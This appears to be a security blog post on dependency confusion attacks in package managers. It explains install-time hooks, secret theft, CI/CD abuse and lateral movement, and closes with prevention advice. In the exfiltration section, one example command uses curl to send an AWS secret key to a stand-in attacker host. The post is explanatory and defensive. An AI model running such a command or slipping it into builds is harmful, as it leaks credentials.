

# Dependency Confusion Attack - Deep Dive & Attack Techniques

## What is Dependency Confusion?

Dependency confusion is a software supply chain attack where an attacker tricks a build system into installing a **malicious package from a public registry instead of a trusted internal one**.

Modern package managers like npm, pip, and Maven resolve dependencies based on **name and version priority**, not trust. This creates a subtle but dangerous gap - if a package with the same name exists publicly and has a higher version, it may be preferred over the internal package.

> In simple terms, the system installs what looks “newer” - not what is actually “trusted”.



## How Dependency Confusion Attack Works?

At its core, this attack abuses how dependency resolution works.

Imagine an organization using an internal package named `internal-lib`. This package is never published publicly and is expected to be resolved from a private registry.

An attacker discovers this package name (often through public code, logs, or misconfigurations) and publishes a package with the same name on a public registry. To increase the chances of it being selected, they assign it a higher version, such as `v99.0.0`.

During the build process, the package manager queries available registries. If not explicitly configured, the package manager may resolve the dependency from the public registry.

Once installed, the malicious package executes its payload during the install or build phase. This happens because most package managers prioritize availability and versioning over trust boundaries between registries.

> No exploit required - just abusing default behavior.


## How Dependencies are Abused by Attackers?

Dependency confusion is just the entry point. The real impact comes from what happens **after the malicious package is executed**.

### Install-Time Code Execution

Many ecosystems allow scripts to run automatically during installation. For example, npm supports `preinstall` and `postinstall` hooks, while Python packages can execute code via `setup.py`.

Attackers use these hooks to run arbitrary commands, download additional payloads, or establish persistence - all during what appears to be a normal dependency installation.

### Secret Exfiltration

Build environments are often rich with sensitive data - API keys, tokens, and environment variables.

A malicious package can silently collect and exfiltrate these secrets. Even a simple script is enough to send credentials to an external server:

```bash
curl -X POST attacker.com --data "$AWS_SECRET_ACCESS_KEY"
```

Since this happens inside the build environment, it often goes unnoticed. Even if the environment is protected by a firewall, attackers can still find ways to exfiltrate data. One of the examples is DNS exfiltration as nicely explained in this [article](https://www.akamai.com/glossary/what-is-dns-data-exfiltration) 


### CI/CD Pipeline Abuse

CI/CD pipelines operate with high levels of trust and privilege. They can access repositories, manage deployments, and even sign artifacts.

If a malicious dependency executes within this environment, it effectively gains the same level of access. At this point, the attacker doesn’t just compromise code - they become part of the release process.

> This is where supply chain attacks become truly dangerous.

### Lateral Movement

Once credentials are stolen, attackers can move beyond the initial compromise. They may access internal services, modify repositories, or pivot deeper into the infrastructure.

What started as a dependency issue quickly escalates into a broader system compromise.

## Sample Diagram

```
Developer Code
     |
     v
Build System (CI/CD)
     |
     |-> Internal Registry (expected)
     |
     |-> Public Registry (attacker-controlled)
                   |
                   v
        Malicious Package Installed
                   |
                   v
        Install Script Executes
                   |
                   v
        Secrets Exfiltration / Backdoor
                   |
                   v
        Compromised Artifact Shipped
```

## How to Prevent Dependency Confusion?

There is no single fix for dependency confusion. Effective defense requires **layered controls across the build and dependency ecosystem**.

### Use Private Registries with Priority

Ensure that internal packages are always resolved from private registries. Public registries should either be used as a fallback with strict controls or avoided entirely for internal dependencies.

### Namespace Your Internal Packages

Using clear and unique naming conventions reduces the risk of collision with public packages.

Instead of generic names like:

```
internal-lib
```

Use scoped or namespaced packages:

```
@company/internal-lib
```

### Pin Dependencies Strictly

Avoid loose versioning such as `latest` or wildcards. Instead, use exact versions along with lock files to ensure deterministic builds.

This guarantees that the same dependency version is installed every time.

### Disable Install Scripts (Where Possible)

Some environments allow disabling automatic script execution during installation. This significantly reduces the attack surface by preventing arbitrary code execution at install time.

### Monitor Dependency Resolution

Keep track of where dependencies are being resolved from and which versions are installed. Any unexpected change in source or version should be treated as a potential security signal.

### Generate and Monitor SBOM

Maintaining a Software Bill of Materials (SBOM) provides visibility into all components within your application - including their sources and versions.

This is critical for both detection and incident response.

### Restrict Outbound Network Access

Build environments should not have unrestricted internet access. Limiting outbound connections can prevent attackers from exfiltrating data or downloading additional payloads.

## Closing Thought

Dependency confusion is powerful because it doesn’t rely on breaking systems - it relies on being trusted by them.

> You don’t need to exploit a vulnerability if the system installs your code by design.

In modern software development, controlling what gets installed is just as critical as securing the code you write - because in many cases, that code may not even be yours.

### 📢 Share this post

[](https://twitter.com/intent/tweet?text=Checkout%20this%20post%20by%20Dhananjay%20Bhujbal%20...%20Your%20application%20is%20only%20as%20secure%20as%20the%20weakest%20link%20in%20its%20software%20supply%20chain&url=https://onemorelens.co.in/posts/Supply-Chain-Security/15-04-2026-dependency-confusion-attack.html)

[](https://www.linkedin.com/sharing/share-offsite/?url=https://onemorelens.co.in/posts/Supply-Chain-Security/15-04-2026-dependency-confusion-attack.html)

[](https://api.whatsapp.com/send?text=Checkout%20this%20post%20by%20Dhananjay%20Bhujbal%20...%20Your%20application%20is%20only%20as%20secure%20as%20the%20weakest%20link%20in%20its%20software%20supply%20chain.%20https://onemorelens.co.in/posts/Supply-Chain-Security/15-04-2026-dependency-confusion-attack.html)